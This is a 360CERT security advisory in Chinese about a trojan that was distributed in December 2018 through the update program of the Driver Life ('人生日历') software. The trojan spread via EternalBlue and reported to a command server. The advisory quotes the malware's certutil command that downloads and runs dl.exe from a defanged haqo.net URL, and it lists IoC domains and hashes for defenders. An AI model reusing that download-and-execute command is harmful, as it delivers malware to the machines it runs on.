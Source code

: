 ```yaml
---
id: 57cc079bc4686dd09981bf034130f1c9
title: 利用“驱动人生”升级程序的恶意程序预警
tags: 
  - 安全资讯
  - 360CERT
---
```


# 利用“驱动人生”升级程序的恶意程序预警

0x00 概述
-------


2018年12月14日下午，360互联网安全中心监控到一批通过 “人生日历”升级程序下发的下载器木马，其具备远程执行代码功能，启动后会将用户计算机的详细信息发往木马服务器，并接收远程指令执行下一步操作。


同时该木马还携带有永恒之蓝漏洞攻击组件，可通过永恒之蓝漏洞攻击局域网与互联网中其它机器。


360安全卫士已在第一时间对该木马进行了拦截查杀，并提交厂商处理。


360CERT在此发出预警，请用户及时做好安全防护与病毒查杀工作。


0x01 技术细节分析
-----------


2018年12月14日14时，驱动人生旗下的“人生日历”产品，通过其升级组件DTLUpg.exe，开始下发执行木马程序f79cb9d2893b254cc75dfb7f3e454a69.exe，18时开始木马推送量开始扩大，到23时我们向厂商通报了发现的情况，下发停止。


截止12月14日21时，该木马累计攻击计算机超过5.7万台（不包括漏洞攻击情况，360安全卫士带有永恒之蓝漏洞免疫功能）。


该木马程序执行后，会向系统安装木马服务Ddriver实现长期驻留，之后向服务器`haqo.net`发送宿主机器的详细信息，包括如下信息：


* 计算机名称
* 操作系统版本
* 机器软硬件信息等


之后接收服务器返回的shellcode指令执行。


![alt](https://p403.ssl.qhimgs4.com/t01c3105eb8113c1c48.png)


![alt](https://p403.ssl.qhimgs4.com/t0106b7b611887d1a47.png)


同时该木马具有自升级，远程下载文件执行，远程创建服务等功能。


木马在启动后，会根据服务器指令，下载一款永恒之蓝漏洞利用工具，通过该漏洞利用工具，攻击局域网与互联网中其它计算机，攻击成功后，使用certutil做跳板程序，向其它机器安装该木马（也可以安装其它木马，由云端服务器决定）。


`certutil -urlcache -split -f hxxp://dl.haqo.net/dl.exe c:\install.exe&c:\install.exe&……`


![alt](https://p403.ssl.qhimgs4.com/t01b69ee529636e73ba.png)


目前该木马的C&C仍然活跃，收到的更多指令在继续分析中。


上述由360核心安全团队提供分析。


0x02 修复方式与安全建议
--------------


1. 及时使用360安全卫士进行病毒查杀（360安全卫士具备的永恒之蓝漏洞免疫功能，可保护用户免遭该木马攻击）


![alt](https://p403.ssl.qhimgs4.com/t016bc444c9b8d59b76.png)


2. 做好相关重要数据备份工作
3. 加强系统安全工作，及时升级软件与安装操作系统补丁
4. 服务器暂时关闭不必要的端口（如135、139、445）
5. 服务器使用高强度密码，切勿使用弱口令，防止黑客暴力破解


0x03 相关IoC
----------


hxxp://p.abbny.com/im.png


hxxp://i.haqo.net/i.png


hxxp://dl.haqo.net/eb.exez


hxxp://dl.haqo.net/dl.exe


ackng.com


74e2a43b2b7c6e258b3a3fc2516c1235


2e9710a4b9cba3cd11e977af87570e3b


f79cb9d2893b254cc75dfb7f3e454a69


93a0b974bac0882780f4f1de41a65cfd


0x04 时间线
--------


**2018-12-14** 360互联网安全中心监测发现木马


**2018-12-15** 360CERT && 360核心安全团队发布预警


